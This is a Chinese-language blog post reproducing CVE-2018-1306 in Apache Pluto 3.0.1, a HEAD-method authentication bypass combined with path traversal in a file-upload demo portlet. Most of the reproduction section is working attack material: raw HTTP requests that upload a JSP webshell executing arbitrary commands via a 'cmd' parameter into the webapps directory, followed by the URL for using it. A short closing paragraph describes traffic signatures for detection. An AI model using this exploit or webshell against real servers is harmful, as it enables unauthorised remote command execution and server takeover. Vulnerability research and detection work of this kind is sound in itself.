 ```yaml
---
layout: post
title:  "Apache Portals Pluto 任意文件上传漏洞(CVE-2018-1306) " 
date:   2019-08-05 11:03:16
categories: Development
author: co0ontty
categories: 安全开发 漏洞复现 ALL
tags: 安全开发 漏洞复现 ALL
describe: Apache Portals Pluto 任意文件上传漏洞(CVE-2018-1306)
cover: '/assets/img/posts/apacheplutobanner.png'
---
```


## Apache Portals Pluto 任意文件上传漏洞(CVE-2018-1306)

### 漏洞概述

Apache Pluto使用Web.xml中的安全约束配置来控制对资源的访问，但是其中的安全约束配置存在缺陷，攻击者可以绕过身份验证。安全约束配置中，Pluto定义了GET、POST、PUT方法，由于未列出HEAD方法，因此可以使用HTTP HEAD方法来绕过安全约束策略。

并且PortletV3AnnotatedDemo Multipart Portlet war文件代码未限制和验证文件上传路径，攻击者可以利用"../"来自定义上传文件的保存路径。 利用两个设计缺陷进行配合，攻击者可以上传任意文件到任意文件目录，从而能获取服务器的webshell。

### 漏洞环境搭建

* 从 github clone 最新的源码 ：
  
  git clone https://github.com/apache/portals-pluto.git pluto

* 切换分支到3.0.1版本
  
  git checkout pluto-3.0.1

* 安装环境（ant 自动安装）
  
  ant -f dist-build.xml -DincludeDemos=true -DnoClean=true

* 启动环境
  
  进入到/pluto/target/dist/XXX/bin文件夹下，XXX为项目版本的文件夹
  
  运行startup.sh(\*nix)startup.bat(win)

### 漏洞复现

使用 burp 发送以下请求到 Apache Pluto：

```javascript
HEAD /pluto/portal/File%20Upload/__pdPortletV3AnnotatedDemo.MultipartPortlet%21-1517407963%7C0;0/__ac0 HTTP/1.1
Host: Host: 172.16.5.146:8080
Content-Type: multipart/form-data; boundary=XX
Content-Length: 727

--XX
Content-Disposition: form-data; name="file"; filename="jspshell.jsp"
Content-Type: application/octet-stream

<FORM METHOD=GET ACTION='jspshell.jsp'>
CMD: <INPUT name='cmd' type=text  value="cmd /c dir">
<INPUT type=submit value='Run'></FORM>
<%@ page import="java.io.*" %>
<%
    String cmd = "whoami";
    String param = request.getParameter("cmd");
    if (param != null){ cmd = param; }
    String s = null;
    String output = "";
    try {
    Process p = Runtime.getRuntime().exec(cmd);
    BufferedReader sI = new BufferedReader(new InputStreamReader(p.getInputStream()));
    while((s = sI.readLine()) != null) { output += s+"\r\n"; }
    }  catch(IOException e) { e.printStackTrace(); }
%>
<pre><%=output %></pre>
--XX-- 
HEAD /pluto/portal/File%20Upload/__pdPortletV3AnnotatedDemo.MultipartPortlet%21-1517407963%7C0;0/__ac0 HTTP/1.1
Host: Host: 172.16.5.146:8080
Content-Type: multipart/form-data; boundary=XX
Content-Length: 748

--XX
Content-Disposition: form-data; name="file"; filename="../../../webapps/pluto/qiuge.jsp"
Content-Type: application/octet-stream

<FORM METHOD=GET ACTION='qiuge.jsp'>
CMD: <INPUT name='cmd' type=text  value="cmd /c dir">
<INPUT type=submit value='Run'></FORM>
<%@ page import="java.io.*" %>
<%
    String cmd = "whoami";
    String param = request.getParameter("cmd");
    if (param != null){ cmd = param; }
    String s = null;
    String output = "";
    try {
    Process p = Runtime.getRuntime().exec(cmd);
    BufferedReader sI = new BufferedReader(new InputStreamReader(p.getInputStream()));
    while((s = sI.readLine()) != null) { output += s+"\r\n"; }
    }  catch(IOException e) { e.printStackTrace(); }
%>
<pre><%=output %></pre>
--XX--
```

webshell使用：http://172.16.5.146:8080/pluto/qiuge.jsp?cmd=hostname

### 流量分析

如果可以检测到对 `/pluto/portal/File%20Upload/**pdPortletV3AnnotatedDemo.MultipartPortlet%21-1517407963%7C0;0/**ac0` 上传 jsp ，则可以判断为攻击行为，可以通过进一步检测是否存在类似 `../../../webapps/pluto/qiuge.jsp` 的 filename 值 来判断是否是利用本漏洞进行利用 
